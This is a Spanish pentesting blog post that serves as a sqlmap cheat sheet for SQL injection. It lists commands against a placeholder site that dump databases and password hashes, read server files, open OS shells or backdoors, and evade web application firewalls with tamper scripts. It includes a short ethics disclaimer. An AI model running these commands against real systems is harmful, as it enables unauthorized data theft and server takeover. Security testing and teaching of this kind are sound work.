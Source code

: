 ```yaml
---
layout: post
title: "sqlmap: El maestro de las inyecciones SQL"
author: "l1ttl3bugc4t"
date: "2025-06-09"
tags: [sqlmap, SQL Injection, Pentesting, Red Team, Seguridad Web, Herramientas]
categories: [cuaderno, Red Team & Chill, CyberChallenges]
---
```


**sqlmap** es una herramienta de código abierto que automatiza el proceso de detección y explotación de **SQL Injection** 💉📜  
Ideal para pruebas rápidas y potentes sobre aplicaciones web vulnerables.

---

## ⚙️ ¿Qué es sqlmap?

Es una herramienta escrita en Python que permite detectar y explotar inyecciones SQL en parámetros web.  
Además, puede hacer desde extracción de bases de datos hasta obtener shells interactivas en el servidor 😼

---

## 🚀 Comandos básicos

```bash
sqlmap -u "http://victima.com/producto.php?id=1" --dbs
```
Descubre las bases de datos disponibles.

```bash
sqlmap -u "http://victima.com/item.php?id=1" -D tienda -T usuarios --dump
```
Extrae datos de una tabla específica.

```bash
sqlmap -r request.txt --level 5 --risk 3 --batch
```
Usa un archivo de petición interceptada (por ejemplo, desde Burp).

---

## 🧪 Opciones útiles

| Opción | Descripción |
|--------|-------------|
| `--dbs` | Enumera las bases de datos |
| `--tables` | Enumera las tablas de una base de datos |
| `--columns` | Muestra las columnas de una tabla |
| `--dump` | Extrae el contenido |
| `--os-shell` | Intenta obtener una shell del sistema operativo |
| `--passwords` | Obtiene hashes de contraseñas |
| `--level` y `--risk` | Ajustan el grado de pruebas y agresividad |
| `--batch` | Ejecuta sin preguntar confirmaciones |
| `--tamper` | Usa scripts para evadir WAFs |

---

## 🔒 Bypass de WAFs

Puedes usar técnicas evasivas:

```bash
sqlmap -u "http://victima.com" --tamper=space2comment --level=5 --risk=3
```

Scripts comunes:

- `space2comment`
- `charunicodeencode`
- `between`
- `randomcase`

---

## 📁 Tip: usar archivo `.txt` de Burp

Intercepta una petición con Burp → guarda → y úsala con:

```bash
sqlmap -r request.txt --dbs
```

¡Perfecto para inyecciones en métodos POST, headers o JSON!

---

## 🎯 Casos de uso avanzados

- Detectar SQLi en múltiples URLs con `--crawl`
- Automatizar bruteforce de parámetros `--forms`, `--crawl=3`
- Obtener archivos con `--file-read`
- Crear backdoors: `--os-shell`, `--os-pwn`

---

## 🛡️ Ética en uso

sqlmap es muy poderosa. Úsala solo con **permiso expreso**.  
Es una herramienta para **defensa ofensiva**, no para explotación sin ética.

---

## ✨ Conclusión

**sqlmap** es como un bisturí para vulnerabilidades SQL: preciso, rápido y letal si se usa bien.  
Perfecto para l@s que quieren exfiltrar bases de datos con estilo 😈💜

> _"Una URL, una inyección… y toda la base de datos en tu terminal."_ — **l1ttl3bugc4t**

---
